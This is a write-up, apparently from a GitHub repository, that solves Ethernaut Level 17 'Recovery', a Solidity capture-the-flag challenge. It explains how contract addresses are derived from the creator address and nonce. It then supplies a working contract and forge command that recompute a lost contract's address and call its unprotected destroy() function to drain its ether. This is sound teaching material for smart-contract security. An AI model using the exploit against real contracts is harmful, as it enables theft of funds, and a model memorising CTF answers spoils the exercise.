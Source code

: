 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/17-recovery.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 17 - Recovery</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 17 - Recovery](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-17-recovery)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals

<img src="../assets/requirements/17-recovery-requirements.webp" width="800px"/>

## The hack

From the contract code, we can see that there is a public `destroy()` function that can be used to self-destruct the contract and force send the eth to an arbitrary address. So the challenge is to find the address of the contract that was created by the `Recovery` factory.

The easiest way to find it is to paste the `Recovery` contract address in your favorite block explorer and check for the first (and only) contract deployed from this factory! But... that is not exactly what The Ethernaut is trying to teach us here.

Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where:

- `address` is the address of the contract (or the Ethereum address that created the transaction);
- `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Based on that, how to retrieve the contract address without a block explorer?

Since Ethereum addresses are deterministic, we can manually re-calculate the lost address.

- The `Recovery` contract address is `0x2333215479D476895b462Ff945f3aF5bA2d0652e` (Replace with your instance address)
- The nonce is 1 or `0x01` (contracts are initialized with nonce 1)

We can use the following code to calculate the address:

```java
bytes32 hash = keccak256(
    abi.encodePacked(bytes1(0xd6), bytes1(0x94), recoveryAddress, bytes1(0x01))
);
address lostAddress = address(uint160(uint256(hash)));
```

`bytes1(0xd6)` and `bytes1(0x94)` are constants related to [Recursive-Length Prefix](https://ethereum.org/en/developers/docs/data-structures-and-encoding/rlp/) (RLP) to encode arbitrarily nested arrays of binary data.

Now that we have the address, we can call the `destroy()` function to recover the funds.

## Solution

Here is the full code:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// Lost address: 0x9938f099Cb6d3f666C5C168830aDD46952EF421B

interface ISimpleToken {
    function destroy(address to) external;
}

contract RecoveryService {
    address private immutable recovery;

    constructor(address _recovery) {
        recovery = _recovery;
    }

    function recoverAddress() public view returns (address) {
        bytes32 hash = keccak256(
            abi.encodePacked(bytes1(0xd6), bytes1(0x94), recovery, bytes1(0x01))
        );
        return address(uint160(uint256(hash)));
    }

    function recoverFund() public {
        ISimpleToken(recoverAddress()).destroy(msg.sender);
    }
}
```

You can use the following command to run the forge script:

```bash
forge script script/17_Recovery.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## Takeaway

- Ethereum addresses are deterministic and are calculated by `keccak256(address, nonce)`.

## Reference

- [How is the address of an Ethereum contract computed?](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed)
- EIP161: https://eips.ethereum.org/EIPS/eip-161
- Ethereum quirks: https://swende.se/blog/Ethereum_quirks_and_vulns.html

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
